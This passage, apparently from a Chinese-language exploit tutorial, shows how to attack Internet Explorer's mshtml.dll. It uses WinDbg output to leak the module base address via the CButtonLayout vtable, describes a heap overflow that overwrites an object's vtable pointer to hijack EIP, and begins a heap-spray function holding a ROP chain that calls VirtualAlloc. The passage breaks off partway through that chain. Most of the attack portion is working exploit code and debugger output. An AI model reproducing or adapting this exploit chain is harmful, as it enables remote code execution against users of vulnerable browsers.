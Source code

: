 接下来我们来看看偏移的固定地址，也就是我们把读取的地址减去这个固定地址就是mshtml的基址。

	0:013> x mshtml!CButtonLayout::*
	3db58509 mshtml!CButtonLayout::GetThemeClassId = <no type information>
	3dc88cec mshtml!CButtonLayout::GetInsets = <no type information>
	3dc88118 mshtml!CButtonLayout::`vftable' = <no type information>
	3db5c879 mshtml!CButtonLayout::GetAutoSize = <no type information>
	3de4619e mshtml!CButtonLayout::HitTestContent = <no type information>
	3dcbd52b mshtml!CButtonLayout::DrawClientBackground = <no type information>
	3dc59955 mshtml!CButtonLayout::Init = <no type information>
	3db5c879 mshtml!CButtonLayout::GetMultiLine = <no type information>
	3ddaf970 mshtml!CButtonLayout::s_layoutdesc = <no type information>
	3de4618e mshtml!CButtonLayout::GetBtnHelper = <no type information>
	3de45fc9 mshtml!CButtonLayout::GetFocusShape = <no type information>
	3ddaf969 mshtml!CButtonLayout::GetLayoutDesc = <no type information>
	3de46129 mshtml!CButtonLayout::DoLayout = <no type information>
	3db58509 mshtml!CButtonLayout::GetWordWrap = <no type information>
	3dc87f78 mshtml!CButtonLayout::`vftable' = <no type information>
	3de45dd4 mshtml!CButtonLayout::DrawClient = <no type information>
	3db25649 mshtml!CButtonLayout::`scalar deleting destructor' = <no type information>
	3de45e08 mshtml!CButtonLayout::DrawClientBorder = <no type information>
	3db25649 mshtml!CButtonLayout::`vector deleting destructor' = <no type information>
	3dc88ca5 mshtml!CButtonLayout::GetDefaultSize = <no type information>
	0:013> lmm mshtml
	start    end        module name
	3da80000 3e037000   mshtml     (pdb symbols)          c:\symbols\mshtml.pdb\9785E24928F9421FBD0444A38F8668C02\mshtml.pdb
	0:013> ?3dc87f78-3da80000
	Evaluate expression: 2129784 = 00207f78
	
网页的弹窗正确显示了mshtml的基址。

![](http://ww1.sinaimg.cn/large/7fb67c86ly1g3a6sm5ha4j20nk0fewfh.jpg)



### **劫持eip**
接下来再次溢出来劫持eip，通过溢出覆盖对象的虚表指针,覆盖的数据我们可以控制。覆盖的长度span必须要大于29，因为溢出时，需要覆盖vulheap AAA部分 BBB部分 大小为0x100*3+8*2(AAA BBB的堆首信息)+0x8（CButton对象的堆首信息）=0x318,这样才能覆盖到。29*0x1c=0x32c。
	
	function heap_spray(){
	   	CollectGarbage();
		var heapobj = new Object();
    
		// generated with mona.py (mshtml.dll v)
    		function rop_chain(mshtmlbase){
        		var arr = [
				mshtmlbase + Number(0x00001031),
				mshtmlbase + Number(0x00002c78),    // pop ebp; retn
				mshtmlbase + Number(0x0001b4e3),    // xchg eax,esp; retn (pivot)
				mshtmlbase + Number(0x00352c8b),    // pop eax; retn
				mshtmlbase + Number(0x00001340),    // ptr to &VirtualAlloc() [IAT]
				mshtmlbase + Number(0x00124ade),    // mov eax,[eax]; retn
				mshtmlbase + Number(0x000af93e),    // xchg eax,esi; and al,0; xor eax,eax; retn
				mshtmlbase + Number(0x00455a9c),    // pop ebp; retn
				mshtmlbase + Number(0x00128b8d),    // & jmp esp
				mshtmlbase + Number(0x00061436),    // pop ebx; retn
				0x00000001,    		   	    // 0x00000001-> ebx
				mshtmlbase + Number(0x0052d8a3),    // pop edx; retn
				0x00001000,    		   	    // 0x00001000-> edx
				mshtmlbase + Number(0x00003670),    // pop ecx; retn
				0x00000040,    		   	    // 0x00000040-> ecx
				mshtmlbase + Number(0x001d263d),    // pop edi; retn
				mshtmlbase + Number(0x000032ac),    // retn
				mshtmlbase + Number(0x00352c9f),    // pop eax; retn
				0x90909090,    		   	    // nop